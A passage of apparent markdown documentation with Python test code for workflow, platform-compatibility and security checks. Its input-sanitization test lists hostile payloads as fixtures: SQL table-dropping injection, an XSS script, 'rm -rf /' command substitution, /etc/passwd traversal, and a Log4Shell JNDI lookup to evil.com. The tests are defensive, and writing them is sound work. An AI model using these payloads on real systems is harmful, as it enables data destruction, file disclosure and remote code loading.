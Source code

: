 ```python
                ],
                "expected_outcomes": ["validation_passed", "compliance_verified", "performance_acceptable", "quality_documented"]
            }
        ]
        
        for workflow in workflows:
            result = self.execute_complete_workflow(workflow)
            self.validate_workflow_completion(workflow, result)
            
    def test_cross_platform_compatibility(self):
        """Test system compatibility across different platforms"""
        platforms = ["macos", "linux", "windows"]
        
        for platform in platforms:
            if self.is_platform_available(platform):
                result = self.test_platform_compatibility(platform)
                self.assertTrue(result["compatible"])
```

#### **2.2 Security Testing Framework**
```python
#!/usr/bin/env python3
"""
Security Testing Framework
Comprehensive security validation
"""

class SecurityTestFramework:
    """Security testing and validation"""
    
    def test_input_sanitization(self):
        """Test input sanitization and injection prevention"""
        malicious_inputs = [
            "'; DROP TABLE users; --",
            "<script>alert('XSS')</script>",
            "$(rm -rf /)",
            "../../../etc/passwd",
            "${jndi:ldap://evil.com/a}"
        ]
        
        for malicious_input in malicious_inputs:
            result = self.test_command_with_malicious_input(malicious_input)
            self.assertTrue(result["input_sanitized"])
            self.assertFalse(result["vulnerability_detected"])
            
    def test_permission_validation(self):
        """Test access control and permission validation"""
        permission_tests = [
            {"action": "read_sensitive_file", "should_allow": False},
            {"action": "write_system_file", "should_allow": False},
            {"action": "execute_system_command", "should_allow": False},
            {"action": "access_user_directory", "should_allow": True}
        ]
        
        for test in permission_tests:
            result = self.test_permission(test["action"])
            self.assertEqual(result["allowed"], test["should_allow"])
            
    def test_data_privacy_compliance(self):
        """Test data privacy and compliance requirements"""
        privacy_checks = [
            "personal_data_encryption",
```